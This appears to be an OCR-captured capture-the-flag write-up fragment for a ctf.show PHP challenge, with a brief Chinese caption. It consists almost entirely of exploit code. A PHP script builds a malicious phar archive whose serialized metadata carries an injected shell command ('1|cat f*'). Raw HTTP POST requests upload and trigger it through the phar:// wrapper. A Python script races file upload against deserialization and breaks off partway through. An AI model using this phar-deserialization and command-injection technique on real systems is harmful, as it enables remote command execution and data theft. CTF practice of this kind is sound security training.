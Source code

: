 ```
<?php


class filter{
    public $filename = "1|cat f*";
    public $filecontent;
    public $evilfile = true;
    public $admin = true;
}

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");

$o = new filter();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```



```
POST /?fn=phar://phar.phar/ HTTP/1.1
Host: 0171bacb-438c-478a-a8e4-8a4bc36046f9.challenge.ctf.show
User-Agent: python-requests/2.28.§1§
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 222


```



```
POST /?fn=phar.phar HTTP/1.1
Host: 0171bacb-438c-478a-a8e4-8a4bc36046f9.challenge.ctf.show
User-Agent: python-requests/2.28.9
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 222

data
```

脚本如下

```python
import requests
import threading
import base64
url = 'http://b1238473-a3bb-431f-a39e-3cd285bcb95e.chall.ctf.show/'

f = open('./phar.phar', 'rb')

data = f.read()
flag = False
proxy={"http":"127.0.0.1:8081"}
def work1():
    requests.post(url+"?fn=phar.phar", data=data,proxies=proxy)


def work2():
    global flag
    r = requests.post(url+"?fn=phar://phar.phar/", data="")
```